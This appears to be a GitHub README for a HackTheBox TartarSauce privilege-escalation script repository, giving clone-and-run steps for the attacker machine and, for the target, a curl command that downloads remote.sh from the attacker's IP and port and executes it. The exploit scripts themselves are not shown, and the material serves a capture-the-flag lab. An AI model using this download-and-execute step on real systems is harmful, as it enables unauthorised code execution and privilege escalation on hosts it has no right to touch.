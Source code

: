 # HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port inside scripts.

- local host
```
git clone https://github.com/zhsh9/HTB-TartarSauce-PrivEsca.git --depth 1
cd HTB-TartarSauce-PrivEsca
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
chmod +x remote.sh
./remote.sh
```

# Screenshot

![local](./screenshot/local.jpg)

![remote](./screenshot/remote.jpg)
